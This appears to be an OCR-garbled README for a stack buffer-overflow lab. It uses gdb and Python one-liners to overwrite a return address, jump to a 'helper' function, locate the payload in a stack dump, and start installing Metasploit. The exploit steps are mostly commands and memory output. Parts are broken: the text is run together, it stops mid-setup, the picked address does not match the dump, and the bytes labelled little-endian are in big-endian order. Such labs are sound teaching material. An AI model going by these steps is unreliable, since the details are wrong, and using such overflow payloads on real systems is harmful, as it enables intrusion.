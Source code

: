 ```
p help
```
getting adress of helper : 
```
info function
```
If adress of helper is : 0x004011a9 </br>
the little endian will be : \xa9\x11\x40\x00 </br>
Generating shellcode </br>
RQ : TRANSLATE WITH YOU ADDRESS
```
python3 -c 'import sys;sys.stdout.buffer.write(b"A"*516 + b"\xa9\x11\x40\x00" + b"C"*180)' > input.txt
```
```
run < input.txt
```
We can jump to ANY ADDESS  </br>
Generate SHELLCODEIn another terminal : 
```
python3 -c 'print("A"*516+ "B"*4 + "C"*(180))' > input.txt
```
In first terminal 
```
run < input.txt
```
```
x/230wx $esp-0x250
```
Find where our payload START, where it begin 0x414141 </br></br>
```
0xbfffed60:  0x00403eec   0xb7ffeba0   0xbfffefa8   0xb7c53fe5 
0xbfffed70:  0xb7e1eda0   0x00402018   0xb7ffa020   0xbfffed94 
0xbfffed90:  0x00402018   0x000002bc   0xbfffeda8   0x00000000 
0xbfffeda0:  0x00000000   0x41414141   0x41414141   0x41414141 
0xbfffedb0:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffedc0:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffedd0:  0x41414141   0x41414141   0x41414141   0x41414141
0xbfffede0:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffedf0:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee00:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee10:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee20:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee30:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee40:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee50:  0x41414141   0x41414141   0x41414141   0x41414141 
0xbfffee60:  0x41414141   0x41414141   0x41414141   0x41414141 
```

So address is : 0xbfffeda8 </br>
\xbf\xff\xed\xa8 </br> </br>
Find adress by </br></br>
Installing metasploit [ubuntu22.04](https://www.howtoforge.com/how-to-install-metasploit-framework-on-ubuntu-22-04/) [ubuntu20.04](https://www.howtoforge.com/how-to-install-metasploit-framework-on-ubuntu-20-04/)
```
apt update
```
```
apt install wget curl nano ufw software-properties-common dirmngr apt-transport-https gnupg2 ca-certificates lsb-release ubuntu-keyring unzip ruby ruby-full ruby-bundler  build-essential libyaml-dev net-tools-y
```
```
apt install -y nmap
```
```
gem install bundler
```